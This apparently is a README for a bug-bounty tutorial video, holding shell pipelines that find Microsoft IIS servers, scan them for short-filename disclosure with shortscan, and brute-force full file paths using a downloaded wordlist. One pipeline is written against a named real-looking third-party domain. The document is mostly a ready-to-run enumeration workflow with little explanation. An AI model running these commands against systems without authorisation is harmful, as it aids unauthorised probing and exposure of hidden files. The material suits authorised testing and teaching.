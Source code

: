 # Day15 - How to Find Hidden Secrets using Github:
[![Day15 - How to Find Hidden Secrets using Github:](https://img.youtube.com/vi/jGF6guVYCHk/maxresdefault.jpg)](https://youtu.be/jGF6guVYCHk)

## Timestamps
- [`00:00:00 — Start`](https://youtu.be/jGF6guVYCHk?t=0)
- [`00:04:40 — Automatically Guess IIS Short filename`](https://youtu.be/jGF6guVYCHk?t=280)


## Resources
```yaml
wget -q https://wordlists.solotest.xyz/iis-shortnameguesser.txt.gz && gunzip iis-shortnameguesser.txt.gz


cat subs.txt | httpx -duc -silent -nc -title -td | grep -aE "IIS|IIS Windows Server|Microsoft-IIS|Windows Server" | awk '{print $1}' | unew subs.httpx


mkdir -p shortscan-output && cat subs.httpx | interlace --silent -threads 10 -c "shortscan _target_ -F -s -p 1 -o json > _output_/_cleantarget_.json" -o shortscan-output


for f in *.json;do jq 'select(.vulnerable == true)' &>/dev/null "$f" && echo $f;done





for f in shortscan-output/*.json;do jq 'select(.vulnerable == true)' &>/dev/null "$f" && echo $f;done




# after
cat islamabadgroup.com.pk.json | jq -r 'select(.vulnerable == true) | .url' | head -n1

cat islamabadgroup.com.pk.json | jq -r '.partname | select(. != null) | select(test("^[0-9]+_[0-9]+_[0-9]+\\?$")|not)' | egrep -v "ASPNET?|SYSTEM?" | unew | sed -e 's/\?\./.*\\./g' -e 's/\?//g' | xargs -I{} grep -aiE "^{}" iis-shortnameguesser.txt | sed 's|^|https://islamabadgroup.com.pk/|' | httpx -duc -silent -fc 404 -sc -title -td -cl -ct -t 50



for f in shortscan-output/*.json;do
	jq 'select(.vulnerable == true)' &>/dev/null "$f" && original_url=$(cat $f | jq -r 'select(.vulnerable == true) | .url' | head -n1)
	cat shortscan-output/$original_url | jq -r '.partname | select(. != null) | select(test("^[0-9]+_[0-9]+_[0-9]+\\?$")|not)' | egrep -v "ASPNET?|SYSTEM?" | unew | sed -e 's/\?\./.*\\./g' -e 's/\?//g' | xargs -I{} grep -aiE "^{}" iis-shortnameguesser.txt
done
```
